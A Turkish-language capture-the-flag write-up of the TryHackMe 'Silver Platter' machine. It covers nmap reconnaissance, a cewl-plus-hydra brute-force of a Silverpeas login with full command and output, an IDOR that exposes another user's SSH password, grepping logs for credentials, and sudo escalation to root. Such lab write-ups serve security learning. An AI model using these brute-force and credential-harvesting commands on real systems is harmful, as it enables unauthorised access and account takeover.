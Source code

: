 ```yaml
---
title: 'TryHackMe | Silver Platter WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [brute force, log, idor, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: logo.webp
---
```


## Özet

Silver Platter, web uygulamasındaki bilgilerden yararlanarak kaba kuvvet saldırısı yaptığımız kolay seviye bir makinedir. Uygulamaya giriş yaptıktan sonra mesajların bulunduğu alanda bir `IDOR` zafiyeti tespit edecek ve bu zafiyeti sömürerek SSH kullanıcı bilgilerini öğreneceğiz. Daha sonra log dosyalarından birinde bulduğumuz parola ile bir başka kullanıcıya geçiş yapacağız. Bulunduğumuz kullanıcının sudo yetkilerini kontrol ettiğimizde ise root haklarıyla istediğimiz komutları çalıştırabileceğimizi öğreneceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sSVC -T4 10.10.53.94
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
...
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Tyler Ramsbey tarafından yapılmış bir web uygulaması ile karşı karşıyayız. Uygulamanın amacını tam olarak anlamış değilim. Bazı yerlerde CTF'ler düzenledikleri, bazı yerlerde ise kurumların güvenliğini sağladıkları yazıyor. Sanırım bu iki işi de görüyorlar. İletişim sayfasına baktığımızda, iletişim için bir kullanıcı adı verildiğini ve onlarla Silverpeas üzerinden iletişim kurabileceğimizin belirtildiğini görüyoruz.

![](2.webp){: width="900" height="500" }

### 8080 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Bahsettiği `silverpeas` uygulaması `8080` numaralı port üzerinde bulunuyor. İletişim kurmak için bu adrese sadece kullanıcı adı ile yönlendirdiğini düşünürsek, parolasının aynı kullanıcı adına sahip olduğunu veya varsayılan bilgileri içerdiğini düşünebiliriz ama değil. Cewl aracı ile 80 numaralı port üzerinde çalışan web sitedeki bilgilerden bir parola listesi oluşturalım. Daha sonra ise hydra aracından yararlanarak bir kaba kuvvet saldırısı başlatalım.

```console
$ cewl http://10.10.53.94 > passwords.txt
$ hydra -l scr1ptkiddy -P passwords.txt 10.10.53.94 -s 8080 http-post-form "/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-31 09:49:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 345 login tries (l:1/p:345), ~22 tries per task
[DATA] attacking http-post-form://10.10.53.94:8080/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: 10.10.53.94   login: scr1ptkiddy   password: ***
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-31 09:49:19
```

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım.

![](4.webp){: width="1200" height="600" }

## Sömürü aşaması

![](5.webp){: width="1200" height="600" }

Sistemde `manager`, `scr1ptkiddy` ve `administrator` olmak üzere üç adet kullanıcı bulunuyor. Bu kullanıcılara mesaj gönderebiliyoruz. Bulunduğumuz kullanıcıya ise `manager` kullanıcısından "game night" başlığı altında bir mesaj gönderilmiş.

![](6.webp){: width="1200" height="600" }

scr1ptkiddy kullanıcısına gönderilen mesajda bir saat içinde bir VR oyununa başlayacaklarını ve katılmak isteyip istemediğini sorduğunu görüyoruz. Burada url yapısı dikkatimizi çekiyor. 

![](7.webp){: width="900" height="500" }

ID değerini her değiştirişimizde başka bir kullanıcının mesajı ile karşılaşıyoruz. 6 numaralı mesajı kontrol etmek istediğimizde ise `tim` kullanıcısının parolasını elde ediyoruz.

![](8.webp){: width="900" height="500" }

Kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra ilk bayrağı kullanıcının kendi dizininden alıyoruz.

## Yetki yükseltme

### tyler

`id` komutunu kullandıktan sonra `adm` grubunda olduğumuzu öğreniyoruz.

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

`adm` grubunda bulunan dosyaları listelediğimizde geneli log dosyalarından oluşan bir takım dosyalar ile karşılaşıyoruz.

```console
tim@silver-platter:~$ find / -group adm 2>/dev/null
/var/log/kern.log
/var/log/syslog.3.gz
/var/log/kern.log.2.gz
/var/log/syslog.2.gz
/var/log/auth.log.1
/var/log/kern.log.1
/var/log/dmesg.4.gz
...
```

Haliyle bu log dosyalarından `tyler` kullanıcısının parolasını bulabileceğimi düşündüm ve grep komutu ile /var/log dizinindeki dosyaları kontrol ettim.

```console
tim@silver-platter:~$ grep "password" -iR /var/log 2>/dev/null | grep "tyler"
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=*** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```

`auth.log` dosyası içerisinded `tyler` kullanıcısının parolasını buluyor ve kendisine geçiş yapıyoruz.

### root

`sudo` yetkilerimizi görüntülediğimizde herhangi bir kullanıcı adına istediğimiz tüm komutları çalıştırabileceğimizi öğreniyoruz.

```console
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) AL
```

`sudo su` komutunu kullanarak root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
tyler@silver-platter:/home/tim$ sudo su
root@silver-platter:/home/tim# cd /root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt 
THM{***}
```

